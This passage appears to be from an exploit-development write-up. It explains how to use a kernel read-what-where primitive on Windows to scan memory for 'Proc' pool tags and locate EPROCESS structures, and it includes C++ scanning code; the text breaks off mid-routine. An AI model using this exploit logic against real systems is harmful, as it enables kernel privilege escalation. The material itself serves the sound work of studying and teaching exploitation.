 Each data structure in the kernel pool has various headers, (thanks to [ReWolf](http://blog.rewolf.pl/blog/?p=1630) for breaking this down so well):
+ `POOL_HEADER` structure (this is where our `"Proc"` tag will reside),
+ `OBJECT_HEADER_xxx_INFO` structures,
+ `OBJECT_HEADER` which, contains a `Body` where the `EPROCESS` structure lives. 

As b33f explains, in his write-up, all of the addresses where one begins looking for a `"Proc"` tag are `0x10` aligned, so every address here ends in a `0`. We know that at some arbitrary address ending in `0`, if we look at `<address> + 0x4` that is where a `"Proc"` tag *might* be. 

### Leveraging Read What Where
The difficulty on my Windows build was that the length from my `"Proc"` tag once found, to the beginning of the `EPROCESS` structure where I know the offsets to the members I want varied wildly. So much so that in order to get the exploit working reliably, I just simply had to create my own data structure and store instances of them in a vector. The data structure was as follows:
```
struct PROC_DATA {
    std::vector<INT64> proc_address;
    std::vector<INT64> page_entry_offset;
    std::vector<INT64> header_size;
};
```

So as I'm using our Read What Where primitive to blow through all the RAM hunting for `"Proc"`, if I find an instance of `"Proc"` I'll iterate `0x10` bytes at a time until I find a marker signifying the end of our pool headers and the beginning of `EPROCESS`. This marker was `0x00B80003`. So now, I'll have the `proc_address` the literal place where `"Proc"` was and store that in `PROC_DATA.proc_address`, I'll also annotate how far that address was from the nearest page-aligned memory address (a multiple of `0x1000`) in `PROC_DATA.proc_address` and also annotate how far from `"Proc"` it was until we reached our marker or the beginning of `EPROCESS` in `PROC.header_size`. These will all be stored in a vector.

You can see this routine here:
```cpp
INT64 results_begin = ((INT64)output_buff + 0xc);
        for (INT64 i = 0; i < 0xF60; i = i + 0x10) {

            PINT64 proc_ptr = (PINT64)(results_begin + 0x4 + i);
            INT32 proc_val = *(PINT32)proc_ptr;

            if (proc_val == 0x636f7250) {

                for (INT64 x = 0; x < 0xA0; x = x + 0x10) {

                    PINT64 header_ptr = PINT64(results_begin + i + x);
                    INT32 header_val = *(PINT32)header_ptr;

                    if (header_val == 0x00B80003) {

                        proc_count++;
                        cout << "\r[>] Proc chunks found: " << dec <<
                            proc_count << flush;

                        INT64 temp_addr = input_buff.start_address + i;

                        // This address might not be page-aligned to 0x1000
                        // so find out how far off from a multiple of 
                        // 0x1000 we are. This value is stored in our 
                        // PROC_DATA struct in the page_entry_offset
                        // member.
                        INT64 modulus = temp_addr % 0x1000;
                        proc_data.page_entry_offset.push_back(modulus);

                        // This is the page-aligned address where, either
                        // small or large paged memory will hold our "Proc"
```